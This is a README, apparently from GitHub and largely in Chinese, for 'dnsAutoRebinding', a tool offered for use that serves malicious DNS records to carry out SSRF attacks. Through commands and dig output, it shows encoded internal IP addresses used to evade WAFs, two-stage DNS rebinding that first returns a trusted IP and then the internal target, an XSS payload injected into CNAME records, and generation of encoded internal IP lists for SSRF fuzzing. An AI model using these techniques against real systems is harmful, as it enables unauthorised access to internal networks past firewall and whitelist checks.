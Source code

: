 # dnsAutoRebinding

> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ssrf、ssrf内网地址fuzz、dns二次rebinding、支持ipv4/ipv6、支持ip地址转换码、dns记录污染(文末一个0day为例)。脑图在脑子里，懒得画了。

support Record Type and Encoding：

```
MX = ipv4/ipv6/hex
A = ipv4/en/int/hex
AAAA = ipv6/int/hex
CNAME = ipv4/ipv6/hex
```

配置监听服务器example.com：

| record type | record | record value |
| --- | --- | --- |
| A | ns | server ip |
| NS | test | ns.example.com |

> sudo pip install ipaddr

修改lib/config.conf：
maindomain = test.example.com.
注意根地址.要加

```
Usage: sudo python main.py {Options}

Options:
  -h, --help            show this help message and exit
  -t 300, --TTL=300     ttl value , 0 By Default
  -y A/AAAA/CNAME/MX, --Type=A/AAAA/CNAME/MX
                        Record Type , A By Default
  -e int/hex/en, --Encoding=int/hex/en
                        Record Encoding , None By Default
  -r, --Rebinding       The Second Time Query Return Target Ip
  -p "<script>alert(/xss/)</script>", --payload="<script>alert(/xss/)</script>"
                        Specified Record , Support CNAME/MX

```

-y选项指定以什么记录类型返回：
`-y A/AAAA/CNAME/MX, --Type=A/AAAA/CNAME/MX Record Type , A By Default`

-t选项指定TTL值：
`-t 300, --TTL=300     ttl value , 0 By Default`

直接A记录返回ipv4地址：
`sudo ./main.py`

```
➜  ~ dig 192.168.1.1.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 192.168.1.1.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 50359
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;192.168.1.1.test.example.com.	IN	A

;; ANSWER SECTION:
192.168.1.1.test.example.com. 0	IN	A	192.168.1.1

;; AUTHORITY SECTION:
test.example.com.		227	IN	NS	ns.example.com.
```

server:
`[21:54:16] client ip:44486 => A => 192.168.1.1.test.example.com.`

hex编码：
`sudo ./main.py -e hex`

```
➜  ~ dig 31302e302e302e31.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 31302e302e302e31.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 1585
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;31302e302e302e31.test.example.com.	IN	A

;; ANSWER SECTION:
31302e302e302e31.test.example.com. 0 IN	A	10.0.0.1

;; AUTHORITY SECTION:
test.example.com.		600	IN	NS	ns.example.com.
```

server:
`[22:00:42] client ip:30150 => A => 31302e302e302e31.test.example.com.`

int编码：
`sudo ./main.py -e int`

```
➜  ~ dig 3232235777.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 3232235777.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 18066
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;3232235777.test.example.com.	IN	A

;; ANSWER SECTION:
3232235777.test.example.com. 0	IN	A	192.168.1.1

;; AUTHORITY SECTION:
test.example.com.		456	IN	NS	ns.example.com.
```

server:
`[22:03:00] client ip:5240 => A => 3232235777.test.example.com.`

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;因为waf会识别出内网地址才用的上本项目，那么waf大可识别进制转换这种，所以要自己写个地址转换方法：

num to en:

```
./lib/common.py 192.168.1.1

1. Single IP Covert For En
2. Build IP List
[+] [1 By Default/2]
bjckbgikbkb
```

`sudo ./main.py -e en`

```
➜  ~ dig bjckbgikbkb.test.example.com

; <<>> DiG 9.8.3-P1 <<>> bjckbgikbkb.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 5115
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;bjckbgikbkb.test.example.com.	IN	A

;; ANSWER SECTION:
bjckbgikbkb.test.example.com. 0	IN	A	192.168.1.1

;; AUTHORITY SECTION:
test.example.com.		20	IN	NS	ns.example.com.
```

server:
`[22:10:22] client ip:8434 => A => bjckbgikbkb.test.example.com.`


dns二次rebinding:
```
sudo ./main.py -r
Input Safe Ip? [Address/Req By Default]8.8.8.8
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;选择性输入目标信任的地址，比如在ssrf时防火墙在验证dns返回值是否存在于白名单。默认为发起请求的地址。(记得特殊情况需要指定记录类型)


第一次：

```
➜  ~ dig 192.168.1.1.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 192.168.1.1.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 59544
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;192.168.1.1.test.example.com.	IN	A

;; ANSWER SECTION:
192.168.1.1.test.example.com. 0	IN	A	8.8.8.8

;; AUTHORITY SECTION:
test.example.com.		461	IN	NS	ns.example.com.
```

第二次：

```
➜  ~ dig 192.168.1.1.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 192.168.1.1.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 45312
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;192.168.1.1.test.example.com.	IN	A

;; ANSWER SECTION:
192.168.1.1.test.example.com. 0	IN	A	192.168.1.1

;; AUTHORITY SECTION:
test.example.com.		501	IN	NS	ns.example.com.
```

dns记录污染：
`sudo ./main.py -p "<script>alert(/xss/)</script>" -y CNAME`

```
➜  ~ dig test.example.com

; <<>> DiG 9.8.3-P1 <<>> test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 5073
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;test.example.com.			IN	A

;; ANSWER SECTION:
test.example.com.		0	IN	CNAME	<script>alert\(/xss/\)</script>test.example.com.
```

![](http://7xiw31.com1.z0.glb.clouddn.com/WX20170625-222928@2x.png)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;这个怎么玩取决于你的小脑袋瓜的脑回路了。如果防火墙还要验证是否为信任地址的话修改lib/common.py：

```
elif payload != 'None' and payload.find(mainDomain) == -1:
    record = payload + "信任地址."
```

ipListBuild:
批量生成网段地址，选择性编码，适合ssrf内网地址fuzz。

```
python lib/common.py 192.168.1.1

1. Single IP Covert For En
2. Build IP List
[+] [1 By Default/2]2
[+] Please Input Segment Length [24 By Default]
[+] Please Input Encoding ['ipv4' By Default]hex
[+] Please Input Server Root Address [test.example.com By Default]
[+] Stored in the 20170625223912_test_example_com_hex.txt
[root@VM_34_252_centos dnsAutoRebinding]# head -n 5 20170625223912_test_example_com_hex.txt
3139322e3136382e312e31.test.example.com
3139322e3136382e312e32.test.example.com
3139322e3136382e312e33.test.example.com
3139322e3136382e312e34.test.example.com
3139322e3136382e312e35.test.example.com
```

